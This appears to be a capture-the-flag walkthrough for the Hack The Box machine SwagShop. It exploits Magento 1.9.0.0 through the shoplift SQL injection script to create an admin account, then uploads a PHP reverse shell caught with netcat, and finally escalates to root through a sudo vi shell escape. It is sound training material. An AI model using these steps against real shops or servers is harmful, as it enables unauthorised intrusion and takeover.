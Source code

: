 ```yaml
---
description: Walkthrough (Easy)
---
```


# SwagShop 🟢🟢🟢

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

[https://app.hackthebox.com/machines/swagshop](https://app.hackthebox.com/machines/swagshop)&#x20;

SwagShop is an easy difficulty linux box running an old version of Magento. The version is vulnerable to SQLi and RCE leading to a shell. The www user can use vim in the context of root which can abused to execute commands.

### Reconnaissance

```bash
nmap -T4 -sVC 10.10.10.140 -oN Nmap
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

* Found only ssh and http open nothing intresting. We could go for URL Fuzzing.
* http is redirecting to `swagshop.htb` so `gedit /etc/hosts` add `10.10.10.140 (press tab) swagshop.htb`

### Directory Fuzzing

{% code overflow="wrap" %}
```bash
gobuster dir -u http://swagshop.htb/ -w /usr/share/wordlists/wordlists/SecLists/Discovery/Web-Content/common.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

* while surfing all urls found a pakage file and got version of website.
* `http://swagshop.htb/var/package/Mage_All_Latest-1.9.0.0.xml`
* Got Magento 1.9.0.0 `google` or `searchsploit` it.

### Magento shoplift bug

Magento shoplift bug originally discovered by CheckPoint team (http://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/) This python script developed by joren but it was having some bug because of which it was not working properly.

* &#x20;If magento version is vulnerable, this script will create admin account with username `forme` and password `forme`

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

* `target = "http://swagshop.htb/index.php"`  Make this changes in `37977.py`

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Getting Shell

* after login with `forme:forme` you get a dashboard.
* Surfing a little bit got products **Catalog > Any item > Custom options > Add new option** edit them **add file/type .php** permission to costumers.

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

* Locate to that folder there will be option to upload file.
* Just upload your php reverse shell and open `nc -nvlp` listener in your terminal
* Navigate to where that php file is uploaded there is a media foder `media/custom_options/quote/`  and click your uploaded .php and get beck shell.

### Finding user.txt

* Will get a www user shell after getting a reverse shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

* To updrage the shell and use it fully.
* Found user flag in `/home/haris/user.txt`

### Previlage Esculation Root.txt

`sudo -l`

```bash
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

Found that user can run vi command without root password as a sudo user.

* Go to `gtfobins` and Found sudo for vi [here](https://gtfobins.github.io/gtfobins/vi/)

```bash
sudo /usr/bin/vi /var/www/html/* -c ':!/bin/sh' /dev/null
```

* after running this command you get a root shell :)

```bash
www-data@swagshop:/home/haris$ sudo /usr/bin/vi /var/www/html/* -c ':!/bin/sh' /dev/null
# /bin/sh //press enter to all

# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt

```

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

